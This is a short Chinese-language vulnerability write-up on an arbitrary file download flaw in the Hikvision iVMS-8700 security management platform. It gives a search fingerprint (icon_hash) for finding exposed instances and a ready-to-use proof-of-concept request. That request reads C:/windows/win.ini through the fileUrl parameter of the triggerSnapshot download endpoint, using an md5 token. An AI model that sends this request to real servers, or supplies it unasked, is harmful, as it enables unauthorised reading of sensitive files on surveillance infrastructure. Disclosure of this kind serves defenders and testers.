

# Hikvision iVMS-8700综合安防管理平台 download 任意文件下载漏洞

## 漏洞描述

Hikvision iVMS-8700综合安防管理平台存在任意文件读取漏洞，攻击者通过发送特定的请求包可以读取服务器中的敏感文件获取服务器信息

## 漏洞影响

Hikvision iVMS-8700综合安防管理平台

## 网络测绘

```
icon_hash="-911494769"
```

## 漏洞复现

登录页面


验证POC， token 为 Url md5

```
/eps/api/triggerSnapshot/download?token=xxx&fileUrl=file:///C:/windows/win.ini&fileName=1 
```

